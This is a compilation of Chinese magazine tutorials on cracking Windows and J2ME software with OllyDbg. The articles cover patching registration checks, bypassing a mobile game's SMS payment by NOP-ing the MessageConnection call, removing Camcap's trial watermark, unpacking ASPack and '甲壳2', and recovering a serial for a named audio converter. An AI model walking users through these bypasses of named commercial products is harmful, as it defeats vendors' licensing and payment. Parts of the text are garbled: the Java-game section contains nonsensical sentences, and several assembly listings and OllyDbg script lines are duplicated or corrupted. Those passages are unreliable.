触软件破解的朋友来说，会遇到一些没有注册按钮的软件。笔者这里就以一款这类注册的crackme为实例，演示一下这类软件的一般破解思路，如果读者有更好的方法，还望多多交流。

首先来看Crackme的运行界面（如图1），没有任何按钮，只有静态的文本提示。软件破解之前的信息收集工作就一带而过了。软件没有加壳，直接载入到OD中，暂停在（如图2）所示的位置。
```
0042656A  55              PUSH EBP
0042656B  8BEC            MOV EBP,ESP
0042656D  83C4 F4         ADD ESP,-0C
00426572  8B 0405 4208    MOV EAX,[00426504]
00426577  E8 E85F0FFF     CALL 00435474


```

我们在注册框里输入任何的东西都没有提示，没有按钮，那我们应该怎么办呢？我们从图1可以看到“NOT Registered”这个字符串，我们不妨尝试在OD中查找一下，看看上面我们只作为一次破解的偶然成功，为什么这么说呢，因为在大多数情况下注册的成功与否是不会有任何提示的所有字符串，需要找没有注册时的提示，有所收获（如图3）。而且在这个字符串上面就是“Registered”，看来当我们输入正确的序列号时，这个文本框的提示就会变成Registered。
双击字符串所在的位置，来到反汇编代码窗口（如图4）。这附近有很多的跳转指令，我们先找到代码块的起始位置，然后重新载入目标程序，并运行，程序界面出现后按F12。
暂停程序，点击工具栏“W”按钮进入显示窗口界面（如图7）。
我们找到TEdit类，点击右键，选择“设置ClassPro消息断点”（如图8）。

此时会弹出消息断点设置对话框，选择“键盘”（某些情况下选择编辑控件）（如图9）。

设置完断点后我们按F9运行程序，程序出现后我们在输入框中输入任意字符，这里输入1进行测试。输入完毕后程序立刻被中断在了系统领空。下面就要按照前面一节进行跟踪了，直到跟踪到我们的程序领空，就可以进行分析了。

消息跟踪法作为一种杀手锏式的破解方法，在处理任何软件的时候都可以用得到，但其复杂程度以及代码的分析追踪难度要比其他的方式复杂，当然如果你对OD的脚本编写很在行的话，可以直接写脚本，利用脚本自动地从系统领空跟踪到程序领空。消息中断法破解软件要求破解者对win32平台比较熟悉。
软件破解作为逆向工程的一个分支，需要更多的是实战练习，基础是重要的，但有时通过大量的练习，你可以自己总结出理论来。

（文章中涉及到的破解程序已收录在光盘中）

## 软件破解之终极必杀技——消息跟踪

沧海浮萍

软件破解的方法多种多样，对于不同语言语言类型的软件有着不同的破解方式，大多数的方法相信很多朋友已经知道，这里笔者就不再赘述了。对于VB这种语言来说，其软件破解的难度相信很多朋友都是心知肚明的。正是因为VB语言将大部分的功能封装到了MSVBVM库中，使得我们在进行代码跟踪的时候大部分的时间都浪费在了库函数中。这里笔者就以一个VB程序作为示例，讲解一下消息跟踪法在软件破解中的应用。
windows操作平台最为显著的特色就是消息映射机制，无论你对软件还是操作系统的任何操作，win32都会按照消息的模式进行处理。例如，我们单击按下鼠标左键的时候，实质上win32获得的是一个WM_LBUTTONDOWN，当我们松开左键的时候，windows系统又会获得一个WM_LBUTTONUP的消息。windows获得消息后，再将消息进行分发，分派到消息应该到的进程进行消息处理。这样我们就有了一个思路，既然windows平台上几乎所有的操作都需要经过消息处理，那我们跟踪注册按钮上的消息不就可以到达程序处理的位置了吗？答案是肯定的。只不过在进行消息跟踪的时候会在windows内部花费一定的时间。

一个VB的crackme运行界面（如图1），软件的基本信息获取就不演示了，但读者一定要按照规范来做。软件没有加壳，我们随便输入一个序列号“1234”，点击“OK”，弹出了错误提示（如图2）。

## 解读窗口

```
```text
Parser1: ERROR 2
Assertion error: lessage in asm
```

图2
```

既然程序有错误提示，我们按照常规的思路可以使用“字符串查找”进行软件破解，这里读者可以自行尝试，采用这种方法可以在2分钟内破解这个软件，这里笔者就不介绍这种方法了，而是采用消息跟踪法。打开OD，载入我们的目标程序，入口点代码如下所示，标准的VB5入口点代码如下。

```
```asm
00401178  >  $  68 58174000        PUSH crack-
ing.00401758
0040117D     .  E8 EFFFFF           CALL <JMP.&MSVBVM50.#100>
00401182     .  0000                ADD BYTE PTR DS:[EAX],AL
00401184     .  0000                ADD BYTE PTR DS:[EAX],AL
```


```

我们按照F9运行程序，输入任意的序列号“1234”，这时候不要点击“OK”。我们按F12暂停程序，然后再工具栏点击“W”（打开窗口）（如图3）。此时我们会来到（如图4）的位置。
在这里我们可以找到当前我们软件上的一些空间以及按钮，如“OK”按钮。知道这个按钮后我们点击右键，选择“设置ClassPro消息断点”（如图5），此时会弹出设置界面（如图6）。
完成上面的基本步骤后，下面我们开始设置消息断点，在Windows下这么多消息，那我们应该选择哪一个呢？选择的过程中我们一般是通过测试目标程序进行确定的。对按钮来说，消息一般有WM_LBUTTONDOWN以及WM_LBUTTONUP两个消息，具体是哪个消息我们可以通过点击按钮来检测。我们在OK按钮按下左键不放，发现没有弹出提示；当我们松开左键的时候提示就弹出来了，这就说明我们要选择的消息是WM_LBUTTONUP，对应的消息值是202。

在系统领空里不容易或者说是无法正常观察，所以我们必须想办法跳到程序领空中。一般情况下我们不采用单步执行的方法，否则你会浪费很长时间，这里笔者采用的是跟踪的方法。当然在某些情况下可以选择“执行到返回”或者“执行到用户代码”。点击“调试”，选择“设置条件”（如图8）。当我们的程序执行到程序领空的时候，EIP指令指针会发生变化。可执行程序的代码范围一般默认从00401000开始，这里我们就设置EIP范围从00401000开始到00404000范围内。
```
```asm
00401000    PUSH EBP
00401001    MOV EBP, ESP
00401003    SUB ESP, 24
00401009    EBP
0040100A    ESI
0040100B    EDI
0040100C    DB 0F 01 3F ...
0040100F    ...
```


```

变化的（如图9）。当EIP指令指针从系统凌空执行到我们的程序领空，一旦进入00401000~00404000范围内，程序就会暂停，我们就可以进行分析了。

设置完毕后，点击“调试”，选择“跟踪步入”（如图10），这时候OD就开始进行代码跟踪了，OD跟踪的时候有时会没有现象，但只要看见左上角的“跟踪”就说明程序正在进行（如图11）。不用很长的时间我们就会看到OD暂停了，在命令栏下方我们可以看见提示（如图12）。此时程序已经进入了程序领空（如图13）。
下面我们要做的就是单步跟踪了，按F8进行单步跟踪，不久就会看到如下所示的代码：

```
```
0040338A C785 30FFFFFF>MOV DWORD PTR
SS:[EBP-D0],cracking.00402>; UNICODE "Valid"
00403394 89BD 28FFFFFF MOV DWORD PTR
SS:[EBP-D8],EDI
0040339A FFD6 CALL ESI
; <&MSVBVM50.__vbaVarDup>
0040339C 8D95 38FFFFFF LEA EDX,DWORD PTR
SS:[EBP-C8]
004033A2 8D4D A8 LEA ECX,DWORD PTR
SS:[EBP-58]
004033A5 C785 40FFFFFF>MOV DWORD PTR
SS:[EBP-C0],cracking.00402>; UNICODE "Password correct, hehe, :- )"
004033AF 89BD 38FFFFFF MOV DWORD PTR
SS:[EBP-C8],EDI
004033B5 FFD6 CALL ESI
004033B7 8D95 78FFFFFF LEA EDX,DWORD PTR
SS:[EBP-88]
```


```

我们看到这里就有正确提示了“Password correct, hehe, :- )”，我们向上回溯，找到跳转的关键位置。这里我们在进行单步跟踪的时候会看到两处跳转。我们都修改成为相反的即可实现错误注册了，注册成功的界面（如图14）。
```
```
004031F6 8B1D 6C614000 MOV EBX,DWORD PTR
DS:[<&MSVBVM50.__vbaSt>; MSVBVM50.__vbaStrVarVal
004031FC 0F8F 2D010000 JG
cracking.0040332F //第一处
00403202 66:83FE 04 CMP SI,4
00403206 7E 05 JLE SHORT
cracking.0040320D

0040336A 894D 90 MOV DWORD PTR
SS:[EBP-70],ECX
0040336D 8945 88 MOV DWORD PTR
SS:[EBP-78],EAX
00403370 0F84 E8000000 JE
cracking.0040345E //第二处
00403376 8B35 9C614000 MOV ESI,DWORD PTR
DS:[<&MSVBVM50.__vbaVa>; MSVBVM50.__vbaVarDup
```


```

到这里，我们的一次消息跟踪之旅就完毕了。从理论上说采用消息跟踪的方法在win32平台下可以破解所有的按钮注册的软件，不过对于不同的软件，复杂度不同，跟踪所需要的时间以及分析的步骤不尽相同。笔者这里只起到抛砖引玉的作用，如果读者发现更好的破击按钮注册的软件方法，希望分享一下相互交流，只有交流，技术才会发展。

（文章中所涉及到的cracking已收录在光盘中）

## 开发一个 Java 手机游戏需要多少钱？

今天全贝千来问的来玩会需要经常拔 SIM 卡，不仅对手机盖有磨损，还要经常找一个叫美少女的常开关机。但是这种方法的优点是绝对不会产生费用，要么成功，要么失败。另外千朵测试赛要有一个关闭无线电的游戏么。既然 MM 功能，不必拆卸 SIM 即可绕过验证。至于是否能适用，还请有兴趣的读者自行测试！显然，这类方法不是完美的解决方案。
Java程序，屏幕大小 172*208，由用户软件开发的单机冒险类 RPG 手游。下载免费，收费方式为游戏过程中发送短信购买。其通用性和可移植性较好，目前可以在 Nokia、Sony Ericsson 等多个品牌机、山寨机使用（如图1）。

我们今天就针对它的短信验证来寻找突破。由于小米资金有限，就用手头仅有的几个手机来测试。分别为索爱 W830c、K550c、W550c 和 Nokia 7260，均能够运行这款游戏。下面我们一起来破解。
### 第一招：编辑配置一个破解 SIM 卡

一看，都是正版的 jar 包，都要收费的。等一会儿，就只能自力更生了。

### 第二招：旁路阅读一个游戏

顾名思义，就是更改手机的设置来绕过这类验证。打开手机，进入短信设置，找到短信中心号码，记下来备用。然后将短信中心号码改为空号，或者其他号码。这样就阻止短信从手机中发送出去。晚点上网吧查案。一看，都是正版的 jar 包，都要收费的。
### 第三招：配置完整一个游戏 Java 程序

这种方法就是从源头来破解了。首先，我们需要 Java 平台，可以直接到 www.java.com 下载。然后，我们安装 Halo 和手机项覆盖。Halo 是一款破解手机游戏的软件。手机项覆盖是在 PC 上模拟手机环境，可以帮助我们在电脑上进行测试。首先，进入 Halo，打开我们需要破解的 JAR 文件。然后，点击工具→配置（如图2）。如果不想修改游戏就点击 JAVAMagic 的修改屏幕和键位关键。
然后，我们输入发送短信的相关函数messageconnection。底下会出现（如图5）。双击这行，我们跳到代码处（图6）。
这里就要靠经验了。大家可以反复琢磨怎么改。常规的方法是留下iconst_1，如果没有iconst_1可以自己新建一个或者留下iconst开头的双击它。把它改成1和return(ireturn也可以）其他的代码都可以删除（如图7）。
但是对于这款游戏却不行，这样会导致PC上的模拟器直接崩溃、白屏、退出。我们下面就对这两个语句分析。

顾名思意javax.wireless.messaging.MessageConnection，这句就是连接发送的函数。javax.wireless.messaging.TextMessage这句，就应该是发送短信的内容了。

我们试着nop掉这两行语句，然后保存方法（如图8）。

放到手机顽童里运行，发现依然崩溃。这就可能是堆栈不平衡，或者其他问题造成的。返回刚才的操作，我们只nop掉第一句，保存再运行，发现这次没问题。OK，成功了。但是到了关卡处依然会发现还是有提示收费的项目，怎么回事呢？原因就是我们只破解掉了函数，却还没有汉化翻译。我们跳回工程管理器（如图9）。
直接修改提示信息就可以了。然后编译、压缩为jar，图10就可以传到手机玩了。
经过我的测试，目前在以上提到的机型中运行无问题，无错误。这样，这款游戏就简简单单破解掉了。Halo的功能非常强大，有兴趣的读者可以跟踪调试。希望大家能有些启发！

（文章中所涉及到的工具已收录在光盘中）

## 爆破日记——又见水印

冷夜 [B.H.S.T]

最近电脑寿命将尽，抓紧做完了备份，一想到高三一年不能碰电脑了，杯具啊。。。这里祝愿和我一样即将面临高考的兄弟们都能实现自己的梦想。

废话不多说了，今天要破解的软件是Camcap，偶尔在已好久不用的文件里发现的，作者描述是支持USB摄像头及所有WDM驱动的摄影机拍照，完美支持XP SP3与Vista，照片存储为图像质量较好压缩比例较大的JPG格式的拍照软件，我们用的

## 秘籍随风

是试用版，照片有字幕；正式版本字幕将消失。

先来拍一下，看着效果，照片加了水印（包括作者信息和拍照时间）。我的爆破方向也由水印确定。大家知道，要获得当前时间，会利用一些函数，我们可以对函数下断，这个程序就用了 GetLocalTime 这个函数。废话不多说，动手吧。

### 一、脱壳

这个软件的壳是 UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo，这个壳很怪，我用 ESP 定律来脱，倒是能正常运行，可是下不了断，而用资源修改工具像 Restorator 修改后壳便消失了，而且还能下断点。我是初学，如果老鸟知道还请不吝赐教。修改资源后载入 PEID（如图1），DELPHI 编写的。
### 二、梆闸数下断查看源码

将修改过的程序载入 OllyIce，右键选择查找一些模块中的名称（标签），找到 KERNEL32.GetLocalTime 一行，右键选择在每个参考上设置断点（如图2）。
```asm
0040ADDC  /$ 83C4 E0        add     esp, -20
0040ADDF  |. 8D4424 08     lea     eax, [esp+8]
0040ADE3  |. 50             push    eax
0040ADE4  |. E8 BDBDFFFF    call    <JMP.&KERNEL32.GetLocalTime>
0040ADE9  |. 66:8B4C24 0E  mov     cx, word ptr [esp+e]
0040ADEE  |. 66:8B5424 0A  mov     dx, word ptr [esp+a]
0040ADF3  |. 66:8B4424 08  mov     ax, word ptr [esp+8]
0040ADF8  |. E8 1BFEFFFF    call    0040AC18
0040ADFD  |. DD5C24 18     fstp    qword ptr [esp+18]
0040AE01  |. 9B             wait
```

在 0040ADDC 处（即这段类似函数的头部）有两处 CALL 调用，经过我的测试，第一个 CALL 没用处，右键选择转到一个 CALL 来自 005086D7，进入另一个下面的代码。

```asm
005086BF  B9 BE000000    mov     ecx, 0BE
005086C4  BA 0A000000    mov     edx, 0A
005086C9  E8 12ECFFFF    call    004273E6
005086CE  80BB 90000000  cmp     byte ptr [ebx+90], 0
005086D5  74 31          je      short 00508708
005086D7  E8 0027F0FF    call    0040ADDC
005086DC  83C4 F8        add     esp, -8
005086DF  DD1C24         fstp    qword ptr [esp]
005086E2  9B             wait
005086E3  8D45 CC        lea     eax, [ebp-34]
005086E6  E8 2933F0FF    call    0040BA14
005086EB  8B45 CC        mov     eax, [ebp-34]
005086EE  50             push    eax
005086EF  8B45 F4        mov     eax, [ebp-C]
```

005086CE 处进行比较，若未注册则继续，首先在 005086D5 处跳过，知道了原理，我们将 005086D5 处的代码改为 JMP，保存一下，再运行程序，作者信息正在，里面的时间已经改了。

那么作者信息又在哪呢？在005086D5处上下翻翻，发现可以的地方，代码如下：

```text
0050873E    FF52 20       call dword ptr [eax+20]
00508741    48            dec eax
00508742    85C0          test eax,eax
00508744    0F8C00000000  jl 0050884A
0050874A    40            inc eax
0050874B    8945EC        mov dword ptr [ebp-14],eax
0050874E    C745EC00000000 mov dword ptr [ebp-14],0
00508755    8B7DEB        cmp byte ptr [ebp-15],0
00508758    741A          je 00508775


```

00508744处有一远跳，既然这样，将1改为JMP试一下，右键复制到可执行文件，保存修改，再运行看看，哈哈，烦人的水印全没了

### 三、修改未注册版本

这个修改很简单，在第一步时可以顺便修改下MYLANG资源，修改后保存即可，我稍稍改了一下，不过软件好像默认的追求些表面文章也没啥必要。

总结一下，本次破解主要是依靠GetLocalTime函数，多少也算个思路吧，至于注册模块我没有分析，但爆破起来容易，呵呵。另外，通过E盾，我们可以知道软件是现在C盘生成一个名为sita.bmp的文件，然后加水印并转换为压缩的JPG文件。本人水平所限，文中难免有错误，若有奉行们发现还请指正QQ648274142。
能机器做的事，绝对不用人做，工业时代的到来解放了指定内容为开始的了人的劳动力。脱壳是个重复耐心工作，一次次单步跟踪，一次次的跑飞，要是每次都要把之前做的工作重复来过，很是浪费人的时间和精力。物极必反，正是这种情况下诞生了脚本，解放了人的劳动力。今天我就抛砖引玉和大家谈一下od脚本。

开始肯定是指令了，指令有点多，我给你大家打包了，下面只列出今天要用到滴，指令手册只要记个脸熟就可以了，到时候查询就可以了。编写脚本工具记事本。

- `var`: 声明变量
- `sto`: 单步走，相当于 f8
- `run`: 运行，相当于 f9
- `cmt`: 注释，相当于
- `ret`: 脚本结束
- `MSG`: 信息框
- `findop`: 从指定地址开始查找指定一个指令
- `$RESULT`: 这个是系统保留变量，函数和ODS的命令返回都放这里。它还有一个隐含的变量为 `$RESULT_1`，有的返回值是2个参数，第二个放这里
- `BPHWS`: 在指定地址，设置硬件断点
- `BPHWC`: 删除指定地址处的硬件断点
- `BPHWCALL`: 删除所有的硬件断点
- `BPRM`: 在指定地址处，设置一个内存读取断点
- `BPWM`: 在指定地址处，设置一个内存读写断点
- `BPMC`: 清除内存断点
- `BP`: 在指定地址设断点
- `GMI`: 获得指定地址所在模块的相关信息
- `MODULEBASE`: 模块基址
- `CODEBASE`: 代码段基址

这么多指令大家可能看得眼花缭乱了吧，大家先混个脸熟。

脸熟，到时候根据实际情况查阅就ok啦。下面我们就进行实践。以aspack为例编写脚本来脱壳，aspack常用的脱壳方法为以下四种：单步走，esp定律，内存镜像，关键代码。由于单步走脚本写起来麻烦，所以就以就以其它三种方法来介绍编写脚本。

### 一、esp定律脱壳

esp定律我相信大家都很熟悉了，但是为了照顾新手这里在演示一遍（不怕各位叉子拍砖，我已经带好安全帽了，嘿嘿……坏笑ing）

> ESP定理脱壳（ESP在OD的寄存器中，我们只要在命令行下ESP的硬件访问断点，就会一下来到程序的OEP了！）

1. 开始就点F8，注意观察OD右上角的寄存器中ESP有没突现（变成红色）（这只是一般情况下，更确切的说我们选择的ESP值是关键句之后的第一个ESP值）。
2. 在命令行下：dd XXXXXXXXX(指在当前代码中的ESP地址，或者是hr XXXXXXXXX)，按回车！
3. 选中下断的地址，断点→硬件访→WORD断点。
4. 按一下F9运行程序，直接来到了跳转处，按下F8，到达程序OEP。
第一条中说关键语句，你可以把壳看做一个函数调用过程，在函数调用前都要保存现场环境，调用完之后就要回复现场。pushad，pushfd保存寄存器，一般只要过了这个保存寄存器，同时esp变红此时就是要用到的esp值。

od载入加壳程序，弹出（如图1）.所示询问是否分析，当然点击否。单步走过第一个pushad，此时看esp值变红，记下此值，在命令行输入hr 13ffa4，回车（如图2）f9运行，删除硬件断点。f8单步走，到达oep。ok此时就可以脱壳了。

总结esp定律脱壳过程如下：

1. 单步一次
2. 获取esp值
3. 下硬件断点hr 13ffa4
4. 运行
5. 删除断点
6. 单步4次 到达oep

ok，按照以上过程，用指令一句一句的翻译。

```
BPHWCALL//, 为了防止之前的断点干扰，删除所有硬件断点
BPMC//删除内存断点
var k //声明变量存放esp值
sto
mov k,esp//将esp值赋给k
BPHWS k,"r"//下硬件访问断点
run//运行
BPHWC k//删除硬件断点
sto//单步走
sto
sto
sto//走过到达oep
cmt eip,"程序oep" //在oep处标注
MSG "已到达oep，可以脱壳了"//弹出提示框已经到达oep
ret //脚本结束


```
### 二、内存镜像法脱壳

1. 用OD打开软件！
2. 点击选项→调试选项→异常，把里面的忽略全部勾上！\n上！CTRL+F2重载下程序！
3. 按 ALT+M，打开内存镜象，找到程序的第一个 .rsrc。\n按 F2 下断点，然后按 SHIFT+F9 运行到断点，接着再按 ALT+M，打开内存镜象，找到程序的第一个 .rsrc 上面的 .CODE（也就是 00401000 处），按 F2 下断点！然后按 SHIFT+F9（或者是在设异常情况下按 F9），直接到达程序 OEP！

内存断点的原理就是须先要将压缩的区段解压到原位，然后执行代码段的代码。

打开内存镜像（如图3）所示，在第四个区段上（即 .rsrc），运行，在此打开镜像在第二个区段即代码段下断点，F9运行，即到达oep。

### 三、脱壳内存镜像脱壳过程

1. rsrc内存断点
2. 运行
3. .text内存断点
4. 运行，到达oep

BPWMCALL//，为了防止之前的断点干扰，删除所有硬件断点

```
BPMC//删除内存断点

var .imgbase
var k
var k1s
var k4s

gmi eip, CODEBASE       // 获取代码段地址
mov cbase, $RESULT

gmi eip, MODULEBASE     // 模块基址400000
mov imgbase, $RESULT
mov k, imgbase
add k, 3C
mov k, [k]
add k, imgbase             // pe头
add k, f8                  // 第一段名，即代码段
mov k1s, k
add k1s, 8                 // 地址加8字节的偏移就是区段大小
mov k1s, [k1s]             // 第一段大小
add k, 78                  // 第四区段名，即资源段
mov k4s, k
add k4s, 8
mov k4a, k4s
mov k4s, [k4s]             // 第四区段大小
add k4a, 4
mov k4a, [k4a]             // 第四区段虚拟地址
add k4a, imgbase           // 第四区段地址
bprm k4a, k4s             // 资源段下断点
run
bprm cbase, k1s           // 代码段下断点
run
cnt eip, "程序OEP"        // 检查OEP
MSG "已到达OEP，现在可以脱壳了"
ret


```

### 四、获取区段虚拟地址大小

PE文件有几大部分组成（如图4），通过计算pe头与第一个区块表之间相差f8。相邻区块表之间相差28（16进制）。区块表结构（如图5），大家就不难得出为什么区块名加8是区段大小，加4是虚拟地址。
### 五、用 OllyDbg 脱壳实战

实战

1. 开始按 Ctrl+F，输入：popad（只适合少数壳，包括 UPX、ASPACK壳），然后按下 F2，F9运行到此处。
2. 来到入跳转处，点下 F8，到达OEP！
搜索popad，在搜索到的地方按下断点，单步走4步就到达oep。

## 神秘蓝屏

### 六、总结popad崩溃过程

1. 搜索popad（指令为61，也就是搜索61）
2. 运行
3. 2断点
4. 4次单步走到oep

```
BP'IMAGE'——为了防止之前的脚本干扰，删除断点
BPMC//删除所有断点
findop eip, x61——按下回车以后搜索61，出现结果为6条
"popad"
bp SRESUL?——下F2下断点
run——运行
stop——停止
stop——停止
stop——停止
cmc eip，程序OEP——标记OEP
MSG——回到oep，现在可以脱壳了
方向转到oep
ret——弹出栈顶数据


```

最后说下脚本的运行，od载入加壳程序→右键运行脚本→打开，选择相应脚本运行即可。

ot脚本精华远不止这些，例如为了调试脚本哪里出错，可以运用log指令记录操作过程，查看选项卡下的记录就可以查看了（如图6）。用以上方法对付压缩壳还是可以的，一些加密壳会有一些反调试，要考虑到东西需要很多。相信大家只要多看多练，一定能写出自己的脚本，方便自己，方便他人。具体操作过程大家可以观看随文操作录像。
（文章中所涉及到的OllyICE、MDSCHECK、录像及代码已收录在光盘中）

### 一、禁止弹出网页

首先用PEiD打开天天，（如图1），发现程序是VB6编写的，没有加壳。

打开OllyDBG 1.10，载入天天，在“CPU主线程”中右键-超级字符串参考-2 查找UNICODE，发现了那个网页。

手机的歌曲真古老了，打算下几首歌曲，因为家里没有上网，不能直接下载歌曲，就向同学借了一个MP3播放器。里面有很多新歌都是WMA格式的，可是下到手机里才发现我的手机很古老，只支持MP3格式的音乐，于是就用天天音频转换专家——贵宾版（以下简称“天天”）来转换格式。可是这款软件不注册只能转化四种格式，并且关闭软件时还弹出网页，又因为没有联网不方便下载破解补丁，所以我打算破解掉这款软件。
“http://www.httppoo.com”，双击来到这个地址：
### 二、寻找注册代码

选中按F2添加一个断点，按F9运行程序，遇到注册框，单击试用，显示出主窗口，再关闭它，发现OD已经停止在了这个断点；

按F9运行，发现注册窗口出现了输入了注册信息点出注册框，单击试用，发现程序到了断点，说明这个位置是把信息保存到tt.ini中，而我们需要再度破坏它之后分析注册信息时的位置，所以查找UNICODE，打开另一处“tt.ini”，将其设为断点。

```
00413693    BA 8C524000    MOV EDX,tt.0040528C

; http://www.hitpco.com
```

```
00420310    68 50514000    PUSH tt.00405150
; tt.ini
```

一直按F8到：

```
0041359F    E8 481AFFFF    CALL tt.00404FEC
```

按F9运行，程序到了断点，这时候，我们把文件tt.ini中的user值设为aaa，pass值设为bbb，（如图4），回到OD，连按F8，分别路过到了这两个地址。

```
0042039C    8D8E 3C       LEA ECX,DWORD PTR DS:[<&MSVBVM60.__vbaStrCmp>]
DS:[ESI+3C]

00420407    8D4E 40       LEA ECX,DWORD PTR DS:[<&MSVBVM60.__vbaStrCmp>]
DS:[ESI+40]


```

再按F8，发现网页已经被打开，回过头，把这一句NOP掉，（如图2），右键二进制—用NOP填充，再右键—复制到可执行文件—所有修改—全部复制，出现一个窗口再右键—保存文件ttl.exe。
双击运行刚生成的ttl.exe，打开在关闭，发现已经没有网页弹出了。哈哈，搞定！

将原来的tt.exe删掉，再将ttl.exe改名为tt.exe。

用OllyDBG，载入tt.exe，查找UNICODE，发现两处“tt.ini”，（如图3），双击第二处，将其设为断点。
并且看到FPU中已经成功的读取了user和pass，（如图5），说明刚才的猜想没有错误，再一路按F8：

```
0042042A    51             PUSH ECX
0042042B    52             PUSH EDX
0042042C    68 9C514000    PUSH tt.0040519C
; ice_ttaudio
00420431    56             PUSH ESI
00420432    FF90 0C070000  CALL DWORD PTR DS:[EAX+70]
00420438    8B45 E8        MOV EAX,DWORD PTR SS:[EBP-18]
0042043B    8B4E 40        MOV ECX,DWORD PTR DS:[ESI+40]
0042043E    50             PUSH EAX
0042043F    51             PUSH ECX
00420440    FF15 B8104000  CALL DWORD PTR DS:[<&MSVBVM60.__vbaStrCmp>]
00420446    85C0           TEST EAX,EAX
00420448    0F85 D1000000  JNZ tt.0042051F
0042044F    A1 10104200    MOV EAX,DWORD PTR DS:[00421010]
DS:[421010]
00420453    85C0           TEST EAX,EAX


```
# 神秘园

## 2011合订本上卷
当运行到了0042043E，发现了寄存器（FPU）中有一个字符串034，看样子很像注册码，（如图6），单独打开一个天天试一试，在用户名中输入"aaa"，注册码中输入"034"（没有引号），（如图7），单击注册，成功了！！！（如图8）。
好了，软件已经破解完毕，现在已经不受任何限制了。

## 秒脱最强壳

有泡看雪的同学，对"名声大噪"的甲壳应该不会陌生，按作者的说明，甲壳2是一种全新的保护壳，保护强度前所未有，自封世界最强。搜了一下，居然连百度百科也收录了这个词条，可见作者宣传的苦心了，那么今天我们要开刀的，就是这只"世界最强壳"。

OD载入甲壳2的主程序，停在这里：

```asm
00401500 55 push ebp
00401501 8BEC mov ebp, esp
00401503 53 push ebx
00401504 56 push esi
00401505 57 push edi
00401506 BF 04304000 mov edi,
```

```asm
00403004

0040150B  | 6A 00                 | push 0
0040150D  | 893D 28304000         | mov dword ptr [00403028],0
00401513  | FF15 18204000         | call dword ptr [<&KERNEL32.GetModuleHandleW>]
00401519  | 68 80204000           | push 00402880
0040151E  | FF15 18204000         | call dword ptr [<&KERNEL32.GetModuleHandleW>]
00401533  | 50                    | push eax
00401534  | FF15 20204000         | call dword ptr [<&KERNEL32.GetProcAddress>]

ModuleHandleW
00401519  | 68 80204000           | push 00402880
0040151E  | FF15 18204000         | call dword ptr [<&KERNEL32.GetModuleHandleW>]
00401533  | 50                    | push eax
00401534  | FF15 20204000         | call dword ptr [<&KERNEL32.GetProcAddress>]

00401539  | 68 80204000           | push 00402880
0040153D  | FF15 18204000         | call dword ptr [<&KERNEL32.GetProcAddress>]
0040153D  | 50                    | push eax
0040153E  | FF15 20204000         | call dword ptr [<&KERNEL32.GetProcAddress>]

00401540  | 6A 00                 | push 0
00401541  | FF15 18204000         | call dword ptr [<&KERNEL32.GetModuleHandleW>]
00401546  | 65                    | db 65
00401547  | 00402880             | add byte ptr [00402880],al

00401549  | 6A 00                 | push 0
0040154A  | FF15 18204000         | call dword ptr [<&KERNEL32.GetModuleHandleW>]
0040154F  | 68 80204000           | push 00402880
00401554  | FF15 20204000         | call dword ptr [<&KERNEL32.GetProcAddress>]
00401559  | C1                    | db C1
```

```asm
!Module = NULL

00401539  | 1  | 8B D8                 | mov ebx,eax
0040153D  | 1  | 8B                    | ...
00401547  | 1  | FF15 18204000         | call dword ptr [<&KERNEL32.GetModuleHandleW>]
0040154F  | 1  | FF15 20204000         | call dword ptr [<&KERNEL32.GetProcAddress>]

SizeOfResource
00401553  | 50                    | push eax
00401554  | FF15 20204000         | call dword ptr [<&KERNEL32.GetProcAddress>]

00401559  | 68 80204000           | push 00402880
0040155E  | FF15 18204000         | call dword ptr [<&KERNEL32.GetModuleHandleW>]
00401563  | 1  | FF15 18204000         | call dword ptr [<&KERNEL32.GetModuleHandleW>]
```

虽然小疯一再劝令我不要贴大段代码，不过这是主要在豆分不住了，因为它直接为我们最后脱壳的“突破”最早体笔，既然是伏笔，就得留到后话，暂时按下不表。既然不表，我们就不 F8 了，单步脱壳法太麻烦（虽然这人喜爱，只要会 F8 就会脱）。这次我们整内部断点。Alt+M，可出程序内存窗口，对着 .rsrc 段下一个断点，F9，到这里：

```asm
003D460D  | C6 00 00 00           | mov byte ptr [eax],0
003D4610  | 8B45 C8               | mov eax,dword ptr [ebp-38]
003D4613  | 8B4D C8               | mov ecx,dword ptr [ebp-38]
003D4616  | 8B45 C8               | mov eax,dword ptr [ebp-38]
003D4619  | 8B45 C8               | mov eax,dword ptr [ebp-38]
003D461C  | 8945 C8               | mov dword ptr [ebp-38],eax
003D461F  | 8B45 C8               | mov eax,dword ptr [ebp-38]
003D4621  | 8945 C8               | mov dword ptr [ebp-38],eax
003D4624  | 8B45 C8               | mov eax,dword ptr [ebp-38]
```

神马意思呢？一般的壳，会给受保护的 PE 文件加一定额外的区段，比如明壳区段。壳区段有个最基本也是必须完成的工作，就是完成解压或者解密原来 PE 的段（具体是解压还是解密，得看是压缩壳还是加密壳），所以就会对原来段所在的内存空间进行写入操作，这里断点下来的，正是壳区段对原区段的解密操作。

由于 003XXXXXX 是申请的内存地址，不保证在你机器上的地址与我写的一样，代码相同就行了。删除内存断点，003D4610 外的 jmp，将跳回循环继续清 0，然后直接在 003D4612 上 F4，下面开始循环解密区段。

```asm
003D461B  | 8B45 C9               | mov eax,dword ptr [ebp-34]
003D461E  | 85C0                  | test eax,eax
003D4621  | 8945 C8               | mov dword ptr [ebp-38],eax
003D4624  | 8B45 C8               | mov eax,dword ptr [ebp-38]
003D4627  | 8B45 C8               | mov eax,dword ptr [ebp-38]
003D462A  | C6 00 00              | mov byte ptr [eax],0
003D462D  | E8B9 3471 00          | call 004A9BF0
```

```asm
003D4627    3B45 FC         cmp
eax, dword ptr [ebp-4]
003D462A    73 12           jnb
short 003D463E
```

这里eax是从0开始自增的，通过一个局部变量传递一下，最后比较。003D4624的mov eax, dword ptr [ebp-34]完全可以化简，是没有必要的花指令。毫无疑问，这样做唯一的目的，就是用迅猛的花指令晃瞎追踪者的眼睛。不过，好像没什么实际效果，花指令量太少，一眼就可以看出来了。

接下来是解码的核心：

```asm
003D462C    8B45 DC         mov
eax, dword ptr [ebp-24]
003D462F    0345 CC         add
eax, dword ptr [ebp-34]
003D4632    8B4D F0         mov
ecx, dword ptr [ebp-10]
003D4635    034D CC         add
ecx, dword ptr [ebp-34]
003D4638    8A11            mov
dl, byte ptr [ecx]
003D463A    8810            mov
byte ptr [eax], dl
003D463C    EB DD           jmp
short 003D461B
003D463E    E9 2FFFFFFF     jmp
003D4572
```

这里用到了同样迅猛的花指令，核心算法是eax中的自增数值加上一个基地址得到一个新的地址，然后ecx用同样的办法得到一个地址并导出一个byte，最后赋值。

